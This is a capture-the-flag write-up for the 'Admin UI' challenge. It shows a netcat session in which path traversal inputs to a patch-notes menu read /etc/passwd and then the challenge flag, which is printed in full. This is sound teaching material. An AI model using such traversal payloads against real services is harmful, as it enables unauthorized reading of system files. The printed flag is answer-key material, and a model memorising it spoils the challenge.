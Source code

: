 # ADMIN UI
PWN-RE

## Description:
> The command you just found removed the Foobanizer 9000 from the DMZ. While scanning the network, you find a weird device called Tempo-a-matic. According to a Google search it's a smart home temperature control experience. The management interface looks like a nest of bugs. You also stumble over some gossip on the dark net about bug hunters finding some vulnerabilities and because the vendor didn't have a bug bounty program, they were sold for US$3.49 a piece. Do some black box testing here, it'll go well with your hat.
> 
> nc mngmnt-iface.ctfcompetition.com 1337

## Solution:

Connecting to the provided server provides us the following service:
```
root@kali:/media/sf_CTFs/google/adminui# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
```

Let's read the release notes:
```
root@kali:/media/sf_CTFs/google/adminui# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
Version0.2
# Release 0.2
 - Updated library X to version 0.Y
 - Fixed path traversal bug
 - Improved the UX
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
Version0.3
# Version 0.3
 - Rollback of version 0.2 because of random reasons
 - Blah Blah
 - Fix random reboots at 2:32 every second Friday when it's new-moon.
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
 ```

 So version 0.2 fixed a path traversal vulnerability and version 0.3 reverted the fix.

 Let's start looking for a known file:
 ```
 === Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../etc/passwd
Error: No such file or directory
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../../etc/passwd
Error: No such file or directory
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
user:x:1337:1337::/home/user:
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
 ```

 We found /etc/password at the following relative path: `../../../etc/passwd`.

 We also can guess that our user's home directory is `/home/user`, based on the last entry of the file.

 From there, we can find the flag with a bit of guessing:
 ```
root@kali:/media/sf_CTFs/google/adminui# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../../../home/user/flag
CTF{I_luv_buggy_sOFtware}=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
 ```